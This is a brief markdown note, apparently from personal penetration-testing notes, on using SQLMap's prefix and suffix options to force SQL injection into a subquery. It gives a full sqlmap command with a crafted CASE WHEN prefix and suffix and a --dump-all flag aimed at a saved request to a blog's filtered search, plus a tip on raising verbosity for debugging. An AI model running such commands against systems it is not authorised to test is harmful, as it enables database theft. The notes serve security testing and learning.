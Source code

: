 ## Usage of Prefix and Suffix to cause injection

SQLMap works best when injecting into `WHERE` clauses. As such, use prefix and suffix to force SQLMap to inject into a subquery to increase the likelihood of it recognising the injection. 

```bash
./sqlmap.py -r ../../Desktop/filteredsearch.req -v 6 --force-ssl --code 200 --regexp '<section class=blog-list>
                        <div class="blog-post">
                        <a href="/post?postId=6">' --prefix '(CASE WHEN (1=(SELECT 1 WHERE 2=2 ' --suffix ')) THEN AUTHOR ELSE TITLE END) --' --dump-all
```

## Debugging SQLMap 

Increase the verbosity of the script to view the requests and payloads being sent. This would enable you to debug. 